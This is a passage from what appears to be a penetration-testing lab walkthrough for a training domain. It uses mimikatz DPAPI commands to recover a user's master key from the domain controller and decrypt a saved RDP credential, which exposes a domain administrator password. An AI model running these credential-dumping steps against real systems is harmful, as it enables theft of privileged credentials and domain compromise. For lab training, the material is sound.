 ```shell
mimikatz # dpapi::cred /in:C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {3b69a6a1-59a6-4645-8bab-092659a589a9}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data
```
- Exit the mimikatz console by typing `exit`.
- Now, List the directory named `protect` to get the `SID` value.

```shell
C:\Users\Public>dir /a C:\users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect

07/12/2023  11:27 PM                24 CREDHIST
07/12/2023  11:27 PM    <DIR>          S-1-5-21-743690612-71349104-3832511162-1113
07/12/2023  11:27 PM                76 SYNCHIST
```
- Type the same command as above followed by the SID.

```shell
C:\Users\Public>dir /a C:\users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-743690612-71349104-3832511162-1113

07/12/2023  11:27 PM    <DIR>          ..
07/12/2023  11:27 PM               740 3b69a6a1-59a6-4645-8bab-092659a589a9  #This is what we are looking for!
07/12/2023  11:27 PM               916 BK-mayorsec
```
- Again load mimikatz by using cmd `mimikatz.exe`
- copy the `SID` path above followed by the master key value enumerated above with `/rpc`.

```shell
mimikatz # dpapi::masterkey /in:C:\users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-743690612-71349104-3832511162-1113\3b69a6a1-59a6-4645-8bab-092659a589a9 /rpc
**MASTERKEYS**
[domainkey] with RPC
[DC] 'mayorsec.local' will be the domain
[DC] 'DC01.mayorsec.local' will be the DC server
  key : 0983cce4cef1f8150b383205fa29c567893b38e5e0a221cfcfb5632d3cb76b8bda0a3b2ee82050e91717bc35ad573425358e50bb1f63ef6766aea11b886e7f48
  sha1: cdac1acccad67b150e0fe312a232f424fc07ea27
```
- We successfully got the master key which we will use to decrypt the stored passwords.
- Copy the `dpapi` cmd with the credential file name we used before and run the command with the master key.

```shell
mimikatz # dpapi::cred /in:C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5 /masterkey:0983cce4cef1f8150b383205fa29c567893b38e5e0a221cfcfb5632d3cb76b8bda0a3b2ee82050e91717bc35ad573425358e50bb1f63ef6766aea11b886e7f48

 TargetName     : Domain:target=TERMSRV/dc01
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : mayorsec\administrator
  CredentialBlob : Password123!
  Attributes     : 0
```
